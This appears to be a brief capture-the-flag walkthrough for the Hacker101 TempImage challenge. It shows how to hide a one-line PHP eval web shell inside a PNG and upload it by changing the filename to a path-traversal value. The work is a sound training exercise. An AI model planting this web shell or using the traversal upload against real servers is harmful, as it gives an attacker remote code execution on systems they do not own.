



# TempImage - FLAG1 
https://vccolombo.github.io/assets/images/cybersec/hacker101-oauthbreaker-flag1.png
## 0x00 Index


## 0x01 Generate Image Shell

Run bat file [gen_imgshell.bat](./gen_imgshell.bat).

```batch
copy img.png/b + webshell.php shell.png
```

Get shell.png which has the injected code.

```php
<?php @eval($_POST['hacker1'])?>
```


## 0x02 Upload the Image Shell

Catch the request and change the file name.

```
Content-Disposition: form-data; name="filename"

/../../shell.php
```

Shell upload successfully.



## 0x03 Connect Server 



## 0x04 FLAG

Flag can be found in index.php


